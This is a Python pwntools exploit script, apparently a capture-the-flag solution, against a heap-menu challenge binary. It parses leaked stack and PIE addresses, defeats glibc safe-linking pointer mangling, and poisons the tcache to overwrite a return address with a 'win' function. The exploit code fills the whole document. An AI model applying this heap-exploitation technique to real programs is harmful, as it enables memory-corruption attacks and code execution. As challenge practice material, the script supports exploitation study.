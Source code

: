 ```python


def demangle(pos, ptr, shifted=1):
    if shifted:
        return mangle(pos, ptr)
    return mangle(pos, ptr, 0)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    target.recvuntil(b"[LEAK] The local stack address of your allocations is at: ")
    stack = int(target.recvline().strip()[:-1], 16)
    ret = stack + 0x148

    target.recvuntil(b"[LEAK] The address of main is at: ")
    elf.address = int(target.recvline().strip()[:-1], 16) - 0x151B

    target.success(f"stack: {hex(stack)}")
    target.success(f"pie: {hex(elf.address)}")

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)

    puts(1)
    target.recvuntil(b"Data: ")
    pos = int.from_bytes(target.recvline().strip(), "little")

    puts(0)
    target.recvuntil(b"Data: ")
    mangled = int.from_bytes(target.recvline().strip(), "little")
    heap = demangle(pos, mangled)

    target.success(f"pos: {hex(pos)}")
    target.success(f"mangled: {hex(mangled)}")
    target.success(f"heap: {hex(heap)}")

    stack_mangled = mangle(pos, stack)
    scanf(0, flat(stack_mangled))

    raw_input("DEBUG")
    malloc(0, 0)
    malloc(0, 0)

    scanf(0, flat(ret))
    scanf(0, flat(elf.sym["win"]))
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```
